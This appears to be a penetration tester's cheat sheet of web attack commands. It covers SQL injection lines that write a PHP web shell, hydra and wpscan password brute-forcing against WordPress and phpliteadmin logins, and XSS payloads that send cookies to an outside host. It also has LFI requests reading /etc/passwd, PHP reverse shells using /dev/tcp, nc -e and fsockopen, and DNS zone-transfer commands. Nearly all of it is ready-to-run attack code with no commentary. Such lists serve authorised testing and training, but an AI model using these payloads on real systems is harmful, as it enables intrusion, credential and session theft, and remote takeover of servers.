 
# Web

## SQL Injection Payloads
```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/shell.php"
```
```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/shell.php"
```
```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/srv/www/shell.php"
```
```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/nginx-default/shell.php"
```
```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/usr/local/apache2/htdocs/shell.php"
```

## Web Applications 

### Wordpress

#### Password bruteforce

```bash
wpscan --url http://$target --username admin --wordlist /mnt/share/wordlists/rockyou.txt -t 20
```
```bash
hydra -vV -l admin -P /usr/share/wordlists/rockyou.txt $target http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=ERROR" -I
```
```bash
hashcat --force -m 400 -a 0 -o found1.txt --remove wphash.hash /usr/share/wordlists/rockyou.txt
```

#### User enumeration
```bash
hydra -vV -L /mnt/share/wordlists/rockyou.txt -p wedontcare $target http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
```

### phpliteadmin
```bash
hydra -l "" -P /mnt/share/wordlists/rockyou.txt -t 1 -v -V $target http-post-form /db/phpliteadmin.php:”password=^PASS^&remember=yes&login=Log+In&proc_login=true”:”Incorrect password.”
```

## XSS
```html
'">><script>i=document.createElement("img");i.src='http://$source_ip/'+document.cookie;</script>
```
```html
<script>new Image().src="http://$source_ip/"+document.cookie;</script>
```

## WebDav
```bash
davtest -url http://$target
```
```bash
curl -X PUT http://$target/test.jsp/ -d @- < test.jsp
```

## LFI 
```bash
curl -s --data "<?system('ls -la');?>" "http://$target/example.php?ACS_path=php://input%00"
```
```bash
curl "http://$target/example.php?page=php://filter/convert.base64-encode/resource=/etc/passwd%00"
```
```bash
bash $pwd/tools/web/Kadimus/bin/kadimus -u $target/?pg=contact -A "Mozilla/5.0 (X11; Linux i586; rv:31.0) Gecko/20100101 Firefox/73.0" --threads 10 --connect-timeout 10 --retry-times 1 
```

## Payloads 
```php
<?php shell_exec("bash -i >& /dev/tcp/$source_ip/$source_port 0>&1") ?>
```
```php
<?php shell_exec("nc -e /bin/sh $source_ip $source_port") ?>
```
```php
<?php $sock=fsockopen("$source_ip",$source_port);exec("/bin/sh -i <&3 >&3 2>&3"); ?>
```

## DNS
```bash
dnsrecon -d $target -t axfr
```
```bash
nmap -p 80 --script dns-brute.nse $target 
```
```bash
python dnscan.py -d $target -w ./subdomains-10000.txt
```